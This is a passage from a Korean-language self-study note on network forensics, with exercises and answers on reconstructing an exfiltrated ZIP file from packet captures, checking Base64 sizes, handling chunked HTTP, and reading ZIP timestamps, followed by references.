    Base64는 3바이트를 4글자로 바꾸므로 3,922바이트는 3,922 ÷ 3 = 1,307.33… → 1,308묶음, 즉 1,308 × 4 = **5,232글자**(마지막 묶음은 `=`로 채움)입니다. 5,232글자를 76글자씩 나누면 69줄(마지막 줄은 짧음)이라 줄바꿈이 69개, 합하면 5,232 + 69 = **5,301바이트**입니다. 실제 파일은 5,302바이트였는데, awk가 꺼낸 값(이미 줄바꿈으로 끝나는) 뒤에 출력용 줄바꿈을 하나 더 붙였기 때문입니다(원래 `bundle.b64`는 5,301바이트였습니다). 이렇게 **크기를 계산으로 맞춰 보는 습관**은 중간 단계에서 바이트가 빠지거나 더해지지 않았는지 확인하는 좋은 방법입니다.

**문제 6. (변경된 조건)** 같은 업로드가 HTTP/1.1의 `Transfer-Encoding: chunked`로 왔다면, 5.2절의 "스트림 원시 바이트" 방법에서 무엇을 더 해야 할까요? 5.1절의 방법은 어떤가요?

??? success "정답과 해설"
    청크 전송에서는 본문이 `크기(16진수)\r\n데이터\r\n` 묶음의 연속으로 오고, 마지막은 `0\r\n\r\n`입니다. 스트림 원시 바이트를 그대로 쓰면 그 **청크 크기 줄들이 데이터 사이에 끼어** 있어 멀티파트와 Base64가 깨집니다. 그래서 헤더를 뗀 뒤 청크를 풀어 데이터만 이어 붙이는 단계가 하나 더 필요합니다. 반면 Wireshark의 HTTP 해석기는 청크를 풀어서 본문을 재구성하므로, `--export-objects`는 보통 풀린 본문을 내보냅니다. 다만 이 경우는 이 강의에서 직접 시험하지 않았으니, 실제로 마주치면 작은 표본으로 두 방법의 결과를 해시로 비교해 확인하세요. 응답에 `Content-Encoding: gzip`이 있다면 압축 풀기 단계도 더해집니다.

**문제 7. (흔한 오해)** 신입 분석가가 "`tcpdump -A -r exfil-retrans.pcap`의 출력을 복사해서 Base64 부분만 붙여 넣고 풀었더니 ZIP이 깨졌다. 그러니 이 데이터는 손상됐다"고 보고했습니다. 무엇이 틀렸나요?

??? success "정답과 해설"
    `tcpdump -A`는 패킷을 **하나씩** 보여 줄 뿐 TCP 스트림을 다시 맞추지 않습니다. 8절의 파일에는 같은 본문이 재전송으로 두 번 찍혀 있으니, 그 출력을 이어 붙이면 Base64가 두 번 들어가 깨진 ZIP이 됩니다. 손상된 건 데이터가 아니라 **꺼내는 방법**이에요. 스트림 따라가기나 객체 내보내기로 다시 꺼내면 원본과 같은 해시가 나옵니다. 또 `tcpdump -A`는 출력할 수 없는 바이트를 `.`으로 바꾸므로, 바이너리를 다룰 때는 애초에 쓰면 안 됩니다. 보고서에서 "손상"이라고 쓰기 전에 다른 방법으로 다시 꺼내 비교합니다.

**문제 8. (적용)** 이 실습의 결과를 들은 법무 담당자가 "그 CSV가 우리 연구 자료라는 게 확실한가?"라고 묻습니다. 네트워크 분석가로서 답할 수 있는 범위와, 다른 누구의 확인이 필요한 부분을 나눠 보세요.

??? success "정답과 해설"
    **분석가가 답할 수 있는 것:** 그 CSV가 어느 시각, 어느 스트림의 어느 바이트에서 어떤 단계로 꺼내졌는지, 그 해시가 무엇인지, 두 방법으로 같은 결과가 나왔는지, 그 파일의 겉모양(401줄, 열 이름, 시료 번호 형식 `B7-001`)입니다. **다른 확인이 필요한 것:** 그 내용이 실제 내부 연구 자료와 같은지는 **연구 부서**가 원본 자료와 비교해 판단해야 합니다. 내부 저장소에 같은 파일이 있다면 해시 비교가 가장 강한 근거가 되고, 없다면 값의 일치 여부를 전문가가 봅니다. 그리고 그 시각 그 주소를 누가 쓰고 있었는지는 DHCP와 로그인 기록(1.11강)으로 따로 확인합니다.

**문제 9. (해석)** 7.2절에서 ZIP 안의 파일 수정 시각을 "참고 정도로만" 쓰라고 했습니다. 왜 그런가요? 이 값이 도움이 되는 경우도 있을까요?

??? success "정답과 해설"
    ZIP의 기본 시각 칸은 **시간대 정보가 없는 지역 시각**이고, 2초 단위로만 기록되며, 만든 컴퓨터의 시계를 그대로 따릅니다. 그 시계가 틀렸거나 일부러 바뀌었을 수도 있고, 압축 프로그램에 따라 다른 시각을 넣기도 합니다. 그래서 그것만으로 "언제 만들었다"고 단정할 수 없어요. 그래도 도움이 되는 경우는 있습니다. 예를 들어 업로드 시각(네트워크에서 관찰한 시각)보다 **몇 분 전**이라면 올리기 직전에 묶었다는 해석과 어울리고, 다른 증거(단말의 파일 시스템 기록)와 맞춰 보면 그 PC에서 만들어졌는지를 판단하는 데 보탬이 됩니다. 이 실습에서는 ZIP 시각(03:53)과 업로드 시각(03:53:16)이 같은 분이었는데, 실습 파일을 바로 만들어 올렸기 때문입니다.

## 참고 자료 { #references }

- 작업 환경에서 쓴 도구: tcpdump 4.99.4, tshark 4.2.2(`--export-objects`, `-z follow`), GNU coreutils `base64`·`basenc`·`sha256sum`, Info-ZIP `unzip`/`zipinfo`, 파이썬 3 표준 라이브러리. 실행 결과는 2026-11-05에 얻었습니다.
- Wireshark, [tshark 설명서 원본(release-4.6)](https://gitlab.com/wireshark/wireshark/-/blob/release-4.6/doc/man_pages/tshark.adoc) (2026-11-05 확인). `--export-objects`와 `-z follow`의 형식(`ascii`, `raw` 등).
- IETF, [RFC 7578: multipart/form-data](https://www.rfc-editor.org/rfc/rfc7578)와 [RFC 2046: MIME 미디어 유형](https://www.rfc-editor.org/rfc/rfc2046) 5.1절(경계선 문법).
- IETF, [RFC 4648: Base16, Base32, Base64 인코딩](https://www.rfc-editor.org/rfc/rfc4648).
- IETF, [RFC 9112: HTTP/1.1](https://www.rfc-editor.org/rfc/rfc9112) 7.1절(청크 전송 코딩).
- PKWARE, [ZIP 파일 형식 명세(APPNOTE.TXT)](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT). 지역 파일 머리말 서명 `PK\x03\x04`, MS-DOS 형식 날짜·시각 칸.

!!! note "이 페이지에 대하여"
    여러 학습 자료를 바탕으로 직접 다시 쓴 개인 학습 노트입니다. 실습 서버, 업로드한 파일, pcap은 직접 만들었고, 사례와 문서 내용은 가상입니다.
